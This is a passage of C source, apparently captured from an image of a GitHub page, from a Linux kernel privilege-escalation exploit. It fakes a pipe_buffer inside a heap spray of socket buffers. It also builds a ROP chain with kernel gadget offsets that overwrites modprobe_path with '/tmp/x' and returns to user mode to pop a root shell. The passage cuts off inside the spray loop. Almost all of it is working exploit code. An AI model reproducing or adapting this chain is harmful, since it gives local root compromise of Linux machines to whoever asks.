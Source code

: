 ```c
{
    uint64_t sk_buff[1024] = {0,};
    struct pipe_buffer* fake_pipe_buffer = (struct pipe_buffer*)sk_buff;
    struct pipe_buf_operations* fake_pipe_ops = (struct pipe_buf_operations*)&sk_buff[20];
    int i, j;
    int index = 0;
    /* segfault handler for usermode change */
    signal(SIGSEGV, get_shell);
    /* make fake pipe buffer */
    memset(sk_buff, 0x43, sizeof(sk_buff));

    /* rop chain */
    /* 0xffffffff81c64f83: 0xffffffff81c64f83 : push rsi ; imul edi, edi, 0x41 ; pop rsp ; pop rbp ; ret */
    /* 0xffffffff8288bec0 <modprobe_path>:	"/sbin/modprobe" */
    /* 0xffffffff813fdde2 : mov qword ptr [rdx], rsi ; ret */
    /* 0xffffffff826c75a2 : pop rsi ; pop rdi ; pop rbp ; ret */
    /* 0xffffffff810007ff : pop rsi ; pop r15 ; pop rbp ; ret */
    /* 0xffffffff81ce5908 : swapgs ; ret */

    uint64_t modprobe_path = 0x188bec0 + kernel_base_addr;
    uint64_t kpti_trampoline = 0xe01026 + kernel_base_addr;
    uint64_t push_rsi_pop_rsp_pop_rbp_ret = 0xc64f83 + kernel_base_addr;
    uint64_t pop_rsi_pop_rdx_pop_rbp_ret = 0x123824 + kernel_base_addr;
    uint64_t mov_rdx_rsi_ret = 0x3fdde2 + kernel_base_addr;
    uint64_t pop_rsi_pop_r15_pop_rbp_ret = 0x7ff + kernel_base_addr;
    uint64_t swapgs_ret = 0xce5908 + kernel_base_addr;
    uint64_t iretq = 0xe010a7 + kernel_base_addr;

    sk_buff[index++] = 0;
    sk_buff[index++] = pop_rsi_pop_rdx_pop_rbp_ret;
    sk_buff[index++] = 0; //dummy
    sk_buff[index++] = modprobe_path;
    sk_buff[index++] = 0; //dummy
    sk_buff[index++] = pop_rsi_pop_r15_pop_rbp_ret;
    sk_buff[index++] = 0x782f706d742f; // /tmp/x
    sk_buff[index++] = 0; //dummy
    sk_buff[index++] = 0; //dummy
    sk_buff[index++] = mov_rdx_rsi_ret;
    sk_buff[index++] = swapgs_ret;
    sk_buff[index++] = iretq;
    //sk_buff[index++] = kpti_trampoline;
    //sk_buff[index++] = 0; //dummy
    //sk_buff[index++] = 0; //dummy
    sk_buff[index++] = (uint64_t)&get_shell;
    sk_buff[index++] = user_cs;
    sk_buff[index++] = user_rflags;
    sk_buff[index++] = user_sp;
    sk_buff[index++] = user_ss;
    
    fake_pipe_buffer->ops = fake_chunk_address + 160;
    fake_pipe_ops->release = push_rsi_pop_rsp_pop_rbp_ret;

    printf("rip_control: spray sk_buff\n");
    for (i = 0; i < SPRAY_SOCKET_FDCNT; i++)
    {
        for(j = 0; j < SPRAY_COUNT_PER_SOCKET_FD; j++)
        {
            if (write(socket_fd[i][0], (void*)sk_buff, SK_BUFF_SPRAY_SIZE) < 0)
            {
                perror("rip_control: failed write buffer");
                exit(0);
            }
```